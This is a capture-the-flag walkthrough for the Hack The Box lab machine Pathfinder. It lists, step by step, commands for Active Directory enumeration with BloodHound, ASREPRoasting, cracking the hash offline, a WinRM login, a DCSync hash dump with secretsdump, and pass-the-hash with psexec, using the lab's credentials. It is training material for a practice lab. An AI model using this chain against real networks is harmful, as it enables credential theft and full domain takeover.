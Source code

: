 Hack The Box :: Starting Point :: Pathfinder :: Windows

# Enumeration

`masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000`

[masscan.webp](../_resources/ff03d096ef4a94e2123741e4feded938.webp)

Port 88 is typically associated with Kerberos and port 389 with LDAP, which indicates that this is a Domain Controller. We note that WinRM is enabled on port 5985.

# Enumeration

Using the credentials we obtained in a previous machine; `sandra:Password1234!`, we can attempt to enumerate Active Directory. We can achieve this using BloodHound. There is a python bloodhound injester, which can be found [here](https://github.com/fox-it/BloodHound.py). It can also be installed using pip: `pip install bloodhound`

`bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30`

[collection.webp](../_resources/27b2c07a94d83e836a381a3ac0144e43.webp)

The json files should now be in the working directory, ready to be imported into BloodHound.

**Installing and Starting BloodHound**
First, we need to install neo4j and BloodHound.

	apt install neo4j
	apt install bloodhound

Next, we need to configure the neo4j service. We can accomplish this by running the following command

`neo4j start console`
You will be then prompted to change your password. Next, we start BloodHound
`bloodhound --no-sandbox`

Ensure you have a connection to the database; indicated by a ✔️ symbol at the top of the three input fields. The default username is `neo4j` with the password previously set.

Opening BloodHound, we can drag and drop the .json files, and BloodHound will begin to analyze the data. We can select various queries, of which some very useful ones are `Shortest Paths to High value Targets` and `Find Principles with DCSync Rights`.

While the latter query returns this:

[bloodhound.webp](../_resources/9d7a95639ebf10de48b716caba4c6078.webp)

We can see that the `svc_bes` has `GetChangesAll` privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.

# Lateral Movement

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/). We can check this using a tool such as Impacket's `GetNPUsers`.

`GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30`

[asreproast.webp](../_resources/419a70c5684e7488f1874fb2591a03f0.webp)

We obtain the TGT ticket for the `svc_bes` and save it to a file called `hash`. We can use Hashcat or JTR in conjunction with `rockyou.txt` to obtain the plaintext password `Sheffield19`.

`john hash -wordlist=/usr/share/wordlists/rockyou.txt`

[john.webp](../_resources/a47190887007bd0d068dea663bc66850.webp)

It is now possible to access the server as `svc_bes` using WinRM, and gain user.txt.

	gem install evil-winrm
	evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

# Privilege Escalation

In order to leverage the `GetChangesAll` permission, we can use Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync attack and dump the NTLM hashes of all domain users.

`secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30`

[secretsdump.webp](../_resources/f6f0a1932534b8fa666f406835cfaeda.webp)

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use Impacket's psexec.py.

`psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>`

[psexec.webp](../_resources/79994a1a3f4287e3aeb8281a9d7c8ad5.webp)